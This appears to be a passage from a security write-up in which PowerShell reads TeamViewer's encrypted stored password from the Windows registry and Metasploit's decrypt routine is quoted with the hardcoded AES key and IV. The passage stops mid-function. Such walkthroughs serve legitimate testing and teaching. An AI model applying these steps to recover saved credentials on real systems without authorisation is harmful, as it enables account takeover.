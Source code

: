 ```
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry

```

`SecurityPasswordAES` is there from the list above. It just dumps a list of integers:

```

PS HKLM:\software\wow6432node\teamviewer\version7> (get-itemproperty -path .).SecurityPasswordAES
255
155
28
115
214
107
206
49
172
65
62
174
19
27
70
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91

```

### Decrypt Password

Looking a bit more at the Metasploit code, there’s a decrypt function:

```

def decrypt(encrypted_data)
    password = ""
    return password unless encrypted_data

    password = ""

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new("AES-128-CBC")
    begin
        aes.decrypt
        aes.key = key
        aes.iv = iv
        plaintext = aes.update(encrypted_data)
```